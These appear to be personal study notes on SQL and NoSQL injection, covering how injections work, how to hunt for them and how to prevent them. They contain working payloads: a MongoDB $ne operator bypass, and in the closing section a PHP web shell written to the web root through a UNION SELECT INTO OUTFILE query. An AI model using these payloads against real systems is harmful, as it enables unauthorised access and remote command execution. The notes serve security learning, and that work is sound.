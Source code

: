 ### SQL Injections
#
* Similar to XSS, this executes incorrectly filtered or escaped SQL commands to an app's database.
* Leads to authentication bypass, data leaks, tampering and RCE.
* Login prompts are an avenue for these vulnerabilities since you are submitting queries for login information.

### Second-Order SQL Injections
#
* First order injections are when user input is used directly in a SQL query.
* Second order is when you retrieve stored user input from the database.

### Prevention
#
* Prepared statements/Parameterized queries. 
    * These make injections practically impossible by ensuring user input doesn't alter SQL logic.
    * The SQL servers compiles the SQL query before any user input is inserted. You'd define
    the logic first before the input data.
    * Anything that deviates from this logic will be treated as a string that is uncapable of executing.
* Create an allowlist for values. You could allow operators like ORDER BY for example.
* Escaping/Sanitizing.
    * ' and " should be fixed.
    * **Different databases have specific characters.**

### Hunting SQL Injections
#
* Categorized into classic & blind varieties.
* Common technique is to insert a single ' then for errors or odd behavior.
* The ' denotes the end of a query string.
* Introducing or experiencing time delays could be a hint.
* Fuzzing
* **Classic** - SQL queries that are returned directly to the attacker.
#
* **Blind** - Harder to find because the web app doesn't return SQL data or error messages. Also called **Inferential SQL injections**.
* These are normally boolean or time based.
* Boolean testing involves sending test conditions to recieve true/false return values. Infering info.
* Time-based injections rely on response times between different payloads. This is meant more for apps that dont give visual clues.

### NoSQL Injections
#
* Stands for Not-Only SQL. Does not use SQL.
* SQL stores data in tables. NoSQL stores data in key-value pairs and graphs.
* Syntax is database specific:
    * MongoDB: Users.find({username:'vickie',password:'password123'})
    * Replace 'password123' with {$ne: ""}. This searches for a paired value that does equal " ". You can find passwords this way.
    * You can execute JavaScript as well. $where,mapReduce,$accumulator, and $function.
    * Characters like ' , ", ; , \ , () , [] , and {} can be used.
### Prevention
#
* Validators
* Disable server-side JavaScript with --noscripting on the CMD.
* Disable security.javascriptEnabled on the config file.
* **Principle of least priviledge** - only give apps the priviledges they need.

### Enumerating the service
#
* @@version on Microsoft SQL server & MySQL
* v$version for Oracle.

### Gain a web shell
#
* <? system<meta>($_REQUEST['cmd']); ?>
* Create a file onm the server with a nonexistant user:
    * SELECT Password FROM Users WHERE Username='abc'
      UNION SELECT "<? system($_REQUEST['cmd']); ?>"
      INTO OUTFILE "/var/www/html/shell.php"
    * Password is blank, so you can upload that cmd script then visit that scripts URL to execute it.
        * <http://www.example.com/shell.php?cmd=COMMAND>
